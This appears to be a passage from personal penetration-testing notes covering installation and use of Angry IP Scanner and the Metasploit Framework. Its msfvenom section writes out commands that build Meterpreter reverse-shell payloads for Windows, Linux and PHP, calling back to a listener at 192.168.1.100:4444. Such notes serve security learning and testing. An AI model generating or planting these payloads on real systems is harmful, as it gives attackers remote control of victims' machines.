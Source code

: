 #### Installation

```bash
# Debian/Ubuntu
sudo apt install ipscan

# Download the debian .deb from website
curl https://angryip.org/download/
cd ~/Downloads/
sudo dpkg -i ipscan_3.9.1_amd64.deb
```

#### Usage

Angry IP Scanner is primarily used through its GUI interface, but can also be used via the command line:

```bash
# Scan IP range
ipscan 192.168.1.0-192.168.1.255

# Scan with specific ports
ipscan 192.168.1.0-192.168.1.255 -p 22,80,443
```

#### Sample Output

![[Pasted image 20250322223946.png]]
### Metasploit Framework

The Metasploit Framework is a powerful tool for developing, testing, and executing exploits against target systems.

#### Installation

```bash
# Debian/Ubuntu
sudo apt install metasploit-framework

# Kali Linux (pre-installed)
sudo apt update
sudo apt upgrade metasploit-framework
```

#### MSFVenom Usage Examples

MSFVenom is used to generate payloads:

```bash
# List payloads
msfvenom -l payloads

# Generate a Windows reverse shell executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe

# Generate a Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf

# Generate a PHP web payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```
